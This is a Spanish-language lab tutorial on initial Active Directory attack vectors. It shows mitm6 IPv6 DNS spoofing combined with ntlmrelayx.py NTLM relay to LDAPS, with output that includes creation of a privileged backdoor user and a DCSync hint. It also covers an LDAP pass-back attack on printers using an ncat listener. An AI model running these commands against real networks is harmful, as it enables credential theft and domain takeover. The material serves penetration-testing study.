



[<- Índice](../SistemasWindows.md)
# Vectores de ataque iniciales contra Active Directory
## *IPv6 DNS Spoofing*

> En las instalaciones por defecto de **Active Directory** el tráfico de red **IPv6** se encuentra habilitado independientemente de que la organización realmente le de uso o no. Dado que **IPv4** es el protocolo predominante en la red, si el tráfico **IPv6** no es gestionado adecuadamente (o deshabilitado), podemos aprovechar este tráfico a nuestro favor.

Por defecto y si no se ha configurado un servidor **DNS** adecuado, los ordenadores en el **Active Directory** realizan solicitudes **DHCPv6** en la red cada cierto tiempo, ==en busca de un servidor **DNS** para **IPv6**==. 

En una red donde no se toma en cuenta **IPv6**, lo más común es que **nadie** responda a estas solicitudes pues no se ha configurado ningún servidor para este rol.

Entonces, ¿que tal que nosotros nos hacemos pasar por el **DNS** solicitado?
De ser así, podemos resolver los nombres solicitados a la dirección **IPv6** que deseemos, tomando el control del tráfico **IPv6**.

En conjunto con el protocolo **WPAD**, podemos incluso redigir tráfico **NTLM** a nosotros y aprovecharlo para autenticarnos en otros servicios mediante su redirección (**Relay**).

Profundicemos un poco en el procedimiento a seguir:

1. Los ordenadores preguntan periodicamente por el **DNS** para **IPv6**
2. Impersonamos a dicho **DNS** en la red interna
3. Por defecto y por el protocolo **WPAD**, los ordenadores solicitan el archivo `wpad.dat` al servidor web con dominio `wpad.[dominio de la organización]`, por ejemplo, `wpad.dominio.com`.
4. Como "**DNS**", resolvemos dicho dominio a nuestra propia IP
5. Recibimos la solicitud y forzamos la autenticación **NTLM** del cliente.
6. Recibimos dicho tráfico **NTLM** y lo redirigimos al servicio con el que deseamos autenticarnos

A continuación, ahondaremos en las herramientas necesarias para este propósito.

#### MITM6 & `ntlmrelayx.py`

> La herramienta [MITM6](https://github.com/dirkjanm/mitm6) implementa el procedimiento necesario de **DNS Spoofing** para el tráfico **IPv6**. Simplemente hay que indicar el dominio principal pertinente a la organización para que la herramienta pueda identificar el tráfico relevante.

Esto se realiza con la bandera `-d` y de ser necesario, como en este laboratorio, indicar la interfaz de red para escucha con la bandera `-i`:

```bash
sudo mitm6 -d hfc.local -i vmnet8

# Starting mitm6 using the following configuration:
# Primary adapter: vmnet8 [00:50:56:c0:00:08]
# IPv4 address: 192.168.22.1
# IPv6 address: fe80::250:56ff:fec0:8
# DNS local search domain: hfc.local
# DNS allowlist: hfc.local
```

> En cuanto a la redirección de tráfico **NTLM**, ya conocemos al confiable `ntlmrelayx.py`, que en esta ocasión trabajara en conjunto con **MITM6** para completar el ataque.

Hay que indicar una serie de opciones a esta herramienta para que el ataque sea compatible:

- `-6`: Para indicar a la herramienta que capture tráfico **IPv6** también.
- `-t <objetivo>`: Para indicar como siempre el objetivo del **Relay**, para este ejemplo, nos enfocaremos en el servicio **LDAPS** del controlador de dominio para realizar una enumeración extensa del **Active Directory**.
- `-wh <dominio wpad>`: Con esta opción, indicamos que se active el servidor **WPAD** con el nombre indicado, para este ejemplo será `wpad.hfc.local`.
- `-l <directorio>`: Directorio donde se almacenará toda la información extraida

El comando final, dado que el controlador de dominio es `192.168.22.128`, se ve de la siguiente manera:

```bash
sudo ntlmrelayx.py -6 -wh wpad.hfc.local -t ldaps://192.168.22.128 -l ./lootdir
```

Ya con ambas herramientas a la escucha, solo resta esperar la solicitud **DHCPv6** periódica o algun evento que la fuerce, por ejemplo, el reinicio de alguna computadora.

Cuando ocurra, **MITM6** lo indicara en pantalla con entradas similares a:

```txt
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
```

Posteriormente, `ntlmrelayx.py` anunciará la solicitud del archivo del protocolo **WPAD**:

```txt
[*] HTTPD(80): Client requested path: /wpad.dat
```



Y el ataque concluye una vez que `ntlmrelayx.py` anuncie: `[*] Domain info dumped into lootdir!`, pues habrá generado varios archivos en distintos formatos con toda la información que logró extraer de **LDAPS**.

```bash
ls lootdir

# domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
# domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
# domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```

Por ejemplo, si abrimos en el navegador el archivo `domain_users.html` podremos visualizar comodamente la información básica de varios usuarios, como nombres, fecha de creación y descripciones:



Para este ejemplo, se capturó el inicio de sesión de un usuario normal. Sin embargo el ataque es aún más **crítico** si con suerte, capturaramos la sesión de un administrador abierta.

Podremos ver que a parte de que es posible enumerar aun más información, `ntlmrelayx.py` aprovecha los privilegios elevados para crear un **nuevo usuario** de nombre y contraseña aleatorios, agregarlo al grupo de **Enterprise Admins** y modificar el **ACL** para otorgarle privilegios especiales.

```txt
[*] HTTPD(80): Authenticating against ldaps://192.168.22.128 as HFC/ADMINISTRATOR SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=hfc,DC=local
[*] Adding new user with username: VceBBXoXmq and password: e:RUgxQ,6PekS36 result: OK
[*] Querying domain security descriptor
[*] Success! User VceBBXoXmq now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250602-220901.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Podemos ver que sin duda es un **vector de ataque** poderoso, pero debemos tomar en cuenta que realizar este **Spoofing** durante demasiado tiempo podría alterar el comportamiento del tráfico de red, pues aunque en distintos protocolos, hay 2 servidores **DNS** resolviendo nombres.

Por esto se recomienda ejecutar este ataque en **Sprints** de 10 a 15 minutos y para permitir que la red se stabilice entre ataques.

---
## *LDAP Pass-Back*

Es común que dispositivos como **impresoras** o **escáneres** involucrados en la red, sean configurados para autenticarse mediante **LDAP** en el **directorio activo**.

Pero si no se protege adecuadamente el acceso a estos dispositivos, podríamos aprovechar estas conexiones a nuestro favor.

> El escenario típico de un ataque **Pass-Back** es aquel donde logramos entrar al panel administrativo de la impresora, por ejemplo mediante credenciales por defecto, y mediante este panel podemos ya sea ==cambiar la dirección IP del servidor *LDAP* configurado==, para poner la nuestra, o ==forzar la comunicación en texto plano (**LDAP** puro)==.

Posteriormente, se busca forzar una conexión por parte de esta impresora para capturar el tráfico pertinente e identificar las **credenciales** en texto plano de la cuenta que esté utilizando esta impresora.

En caso de haber forzado la comunicación en texto claro, bastará con estar a la escucha y filtrar los paquetes capturados para identificar el de la impresora que contenga las credenciales.

Por otra parte, si logramos reconfigurar la dirección del servidor **LDAP** a nuestra máquina atacante independientemente del cifrado, podemos ponernos a la escucha en un puerto local y forzar la conexión para recibir las credenciales.

Esto se realiza típicamente con **Ncat**, por ejemplo:

```bash
sudo ncat -lnvp 389
```

En caso de que la comunicación sea cifrada (**LDAPS**) se debería añadir la bandera `--ssl` al comando anterior para que soporte este tipo de conexiones.

Así, podremos recibir la conexión e identificar las credenciales en texto plano para su uso posterior en otros vectores de ataque.



---
# Enlaces

[<- Vectores de ataque iniciales](HackAD_Begginers_Initial.md) | [Acceso a Shell ->](HACKAD_Begginers_InitialShell.md)